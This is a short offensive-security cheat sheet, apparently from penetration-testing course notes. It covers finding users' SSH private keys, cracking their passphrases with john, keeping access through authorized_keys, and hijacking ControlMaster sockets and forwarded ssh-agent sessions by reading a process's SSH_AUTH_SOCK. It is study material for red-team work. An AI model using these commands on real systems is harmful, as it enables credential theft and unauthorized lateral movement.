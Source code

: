 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: SSH
---
```


<span style="font-size: 35px; color:red"><b>SSH</b></span>

Look for unprotected SSH Keys:
```shell
find /home/ -name "id_rsa"
```

Once find, <span style="color:red">cat id_rsa</span> to see if it's encrypted. The "DEK-Info" declare the type of encryption used.
If encrypted, use <span style="color:red">SSH2JOHN</span> to transform it into hash and crack it with john/hashcat:
```shell
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa.hash
```
If cracked, add your id_rsa to the authoryzed_keys after you get the SSH shell.

Also, check <span style="color:red">~/.bash_history</span> or <span style="color:red">~/.ssh/known_hosts</span> to see who connected recently (might be hashed, if so, nothing to do here).
&nbsp;

---
&nbsp;
<span style="font-size: 30px; color:white"><b>SSH Hijacking</b></span>

<span style="font-size: 25px; color:white"><b>With ControlMaster</b></span>
Use an existing ssh session using ControlMaster (functionality that allows a user to open multiple sessions).
Check <span style="color:red">~/.ssh/controlmaster/</span> to see if there's any socket in the form of <span style="color:red"><b>user@domain:22</span>
If so, you can use it like:
```shell
ssh -S /home/user/.ssh/controlmaster/user\@domain\:22 user@domain
```
no password required!
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>With SSH-Agent</b></span>

SSH-Agent is a utility that keeps track of a user's private keys and allows them to be used without having to repeat their passphrases on every connection.
<span style="color:red">Client --> Intermediate Host --> Final Host</span>

Both Intermediate and Final Host need to have the same public key (<span style="color:red">ssh-copy-id -i ~/.ssh/id_rsa.pub user@domain</span> for both domains). 
- <span style="color:red">ForwardAgent yes</span> on <span style="color:red">~/.ssh/config</span>.
- <span style="color:red">AllowAgentForwarding yes</span> on <span style="color:red">/etc/ssh/sshd_config</span>.
- Start SSH_Agent: _eval <span style="color:red">ssh-agent</span>
- Add key to SSH-Agent: <span style="color:red">ssh-add</span>
Done, you can now connect to Intermediate Host and then from there to Final Host.

&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Exploitation</b></span>
If there's a connection to the <span style="color:red">Intermediate Host</span>, then it's exploitable (check with <span style="color:red">ps aux | grep ssh</span>).
To get ID (PID) value for the SSH processes: <span style="color:red">pstree -p offsec | grep ssh</span>. (just chose one of them).
Cat the process out to find the <span style="color:red">SSH_AUTH_SOCK</span> variable: 
```shell
cat /proc/<PID>/environ
```
Then <span style="color:red">SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l</span> and <span style="color:red">SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh offsec@linuxvictim</span>

